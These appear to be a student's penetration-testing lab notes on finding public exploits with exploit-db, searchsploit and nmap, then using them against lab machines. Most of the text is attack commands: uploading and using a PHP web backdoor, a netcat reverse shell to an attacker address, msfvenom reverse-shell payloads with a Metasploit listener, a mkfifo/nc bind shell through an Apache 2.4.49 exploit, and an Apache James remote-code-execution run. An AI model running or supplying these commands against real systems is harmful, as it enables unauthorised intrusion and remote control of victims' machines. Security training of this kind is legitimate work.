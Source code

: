 
- exploit-db.com
- packetstorm
- firefox --search "Microsoft Edge site:exploit-db.com"

### exploit frameworks
- metasploit
- core impact
- canvas
- Browser Exploitation Framework

### searchsploit - use it for offline usage of exploitdb
```
sudo apt update && sudo apt install exploitdb
searchsploit remote smb microsoft windows
searchsploit -m windows/remote/48537.py
searchsploit php webdav windows
--mirror # copy to current dir
searchsploit -t "Arm Whois 3.11 - Buffer Overflow (SEH)"
searchsploit metasploit squirrelmail linux 
searchsploit html WebCT 4.1.5
searchsploit SUID Linux 2.6.22
searchsploit Eternal Blue Windows 2012 x64
searchsploit Remote Keylogger Shellcode Windows x64
```

### nmap NSE scripts
```
grep Exploits /usr/share/nmap/scripts/*.nse
nmap --script-help=clamav-exec.nse
```

### Exploiting a machine
```
gobuster dir -u http://192.168.204.11:80 -w /usr/share/wordlists/dirb/big.txt
https://www.exploit-db.com/exploits/50944
```

copy exploit to directory
```
searchsploit -m 50944
python3 50944.py -url http://192.168.204.11/project/ -u george@AIDevCorp.org -p AIDevCorp
http://192.168.204.11/project/uploads/users/489620-backdoor.php?cmd=whoami
curl http://192.168.204.11/project/uploads/users/489620-backdoor.php --data-urlencode "cmd=which nc"
curl http://192.168.204.11/project/uploads/users/489620-backdoor.php --data-urlencode "cmd=nc -nv 192.168.45.194 4444 -e /bin/bash"
```

### VM 1
```
nmap 192.168.204.10
smbclient -L 192.168.204.10
nmap -v -p 139,445 --script smb-os-discovery 192.168.204.10
gobuster dir -u http://192.168.204.10:80 -w /usr/share/wordlists/dirb/big.txt
sudo smbclient //192.168.204.10/offsec
searchsploit -m 50972
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.194 LPORT=4444 -f exe > reverse.exe
```

this one works
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.194 LPORT=4444 -f exe > reverse2.exe
python3 50972.py 192.168.204.10 192.168.45.194 reverse.exe
```

- for the above to work we need to create a payload with msvenom, serve that payload up with server, then use msfconsole to set up a listener (cannot use vanilla netcat)

```
>ms6
use exploit/multi/handler
set lhost 192.168.45.194
set lport 4444
set payload linux/x86/shell/reverse_tcp
run
```

### VM 2 - need to find what technologies are being used to look for exploits
```
nmap 192.168.204.188
sudo nmap -O 192.168.204.188 --osscan-guess
sudo nmap --script http-enum 192.168.204.188
gobuster dir -u http://192.168.204.188:80 -w /usr/share/wordlists/dirb/big.txt
whatweb 192.168.204.188 - Found Apache 2.4.49
https://www.exploit-db.com/exploits/50383
searchsploit -m 50383
echo "192.168.204.188" > targets.txt
./50383.sh targets.txt /bin/sh ls
```

create a bind shell by starting a listener on the remote host
```
./50383.sh targets.txt /bin/sh "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc -nvlp 4444 >/tmp/f"
```

then connect to it from kali
```
nc 192.168.204.188 4444
```

### VM 3
```
nmap -sT 192.168.204.52
nmap -p 10000-60000 192.168.204.52
sudo nmap -O 192.168.204.52 --osscan-guess
sudo nmap -sT -A -p 22 192.168.204.52 
nmap -p 32822-32826 -sT -A 192.168.204.52
```

- found on port 32822/tcp Apache James 2.3.2
- Related RCE - https://www.exploit-db.com/exploits/50347

```
searchsploit -m 50347
python3 50347.py 192.168.204.52 192.168.45.194 4444
```

### reverse shell generator
https://www.revshells.com/






